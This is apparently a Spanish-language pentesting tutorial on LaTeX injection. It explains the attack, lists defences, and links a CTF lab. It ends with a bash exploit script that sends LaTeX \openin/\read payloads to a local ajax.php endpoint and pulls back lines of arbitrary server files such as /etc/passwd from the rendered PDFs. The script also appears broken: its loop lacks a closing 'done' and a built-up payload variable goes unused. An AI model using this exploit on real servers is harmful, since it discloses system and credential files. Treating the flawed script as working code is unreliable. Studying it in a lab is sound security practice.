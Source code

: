 ```yaml
---
title: Inyecciones LATEX
---
```

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en LaTeX. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Los ataques de inyección LaTeX ocurren cuando un atacante ingresa código LaTeX malicioso en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para aprovechar vulnerabilidades en la aplicación y **ejecutar código malicioso** en el servidor.

Un ejemplo de una inyección LaTeX podría ser un ataque que aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red.

Para evitar las inyecciones LaTeX, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el uso de LaTeX y cómo evitar la introducción de código malicioso.

A continuación, se os proporciona el enlace correspondiente al proyecto de Github que nos descargamos para desplegar un laboratorio vulnerable donde poder practicar esta vulnerabilidad:

-   **Laboratorio LaTeX Injection**: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)
-----
## Script en Bash para inyectar comandos
``` bash
#!/usr/bin/bash

# Variables Globales
declare -r main_url="http://localhost/ajax.php"
filename=$1

if [ $1 ]; then
  read_file_to_line="%0A\read\file%20to\line"
  for i in $(seq 1 100); do
    file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename%0A\read\file%20to\line%0A\text{\line}%0A\closein\file&template=blank" | grep -i download | awk 'NF{print $NF}') 
    if [ $file_to_download ]; then
      wget $file_to_download &>/dev/null
      file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
      pdftotext $file_to_convert
      file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
      rm $file_to_convert
      cat $file_to_read | head -n 1
      rm $file_to_read
      read_file_to_line+="%0A\read\file%20to\line"
    else
      read_file_to_line+="%0A\read\file%20to\line"
    fi
else
  echo -e "\n[!] Uso: $0 /etc/passwd\n\n"
fi
```
